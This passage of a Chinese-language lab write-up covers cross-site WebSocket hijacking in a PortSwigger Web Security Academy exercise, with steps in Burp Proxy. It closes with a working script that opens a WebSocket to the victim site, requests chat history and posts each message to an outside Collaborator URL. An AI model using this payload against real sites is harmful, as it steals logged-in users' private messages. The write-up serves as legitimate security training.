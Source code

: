 #### 简易测试

Step 1：修改origin后进行握手尝试  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218150442-3f1258a0-7ea2-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218150442-3f1258a0-7ea2-1.png)

Step 2：握手成功  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153202-10a6f92c-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153202-10a6f92c-7ea6-1.png)

Step 3：用第三方连接websockets发送消息发现能够抓包，如果用户已经登录网站后被诱骗访问攻击者设计好的恶意网页，恶意网页在某元素中植入一个WebSocket 握手请求申请跟网站建立WebSocket连接，一旦打开该恶意网页则自动发起攻击者构造的请求  
[http://www.websocket-test.com/](http://www.websocket-test.com/)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153239-26834746-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153239-26834746-7ea6-1.png)

#### 实验环境

[https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

#### 实验步骤

Step 1：打开靶场环境之后点击Live Chat  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153307-371529a8-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153307-371529a8-7ea6-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153320-3ef84bc8-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153320-3ef84bc8-7ea6-1.png)

Step 2：之后提交message  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153335-47f6a1de-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153335-47f6a1de-7ea6-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153347-4effacd2-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153347-4effacd2-7ea6-1.png)  
Step 3：在Burp Proxy的WebSockets history选项卡中，观察到"READY"命令从服务器检索过去的聊天消息  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153401-57777930-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153401-57777930-7ea6-1.png)  
Step 4：在Burp Proxy的HTTP history选项卡中，找到WebSocket握手请求可以看到该请求没有CSRF令牌  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153511-80e7439a-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153511-80e7439a-7ea6-1.png)

Step 5：右键单击握手请求并选择"复制URL"

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153527-8a6d491e-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153527-8a6d491e-7ea6-1.png)  
Step 6：在浏览器中转到exploit server，将以下模板粘贴到"Body"部分，将your-websocket-url替换为websocket握手中的URL(your-lab-id.web-security-academy. net/chat)，确保将协议从[https://更改为wss://，之后使用Burp](https://xn--wss-c88d846h6fc//%EF%BC%8C%E4%B9%8B%E5%90%8E%E4%BD%BF%E7%94%A8Burp) Collaborator客户端生成的有效负载替换your-collaborator-url

<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

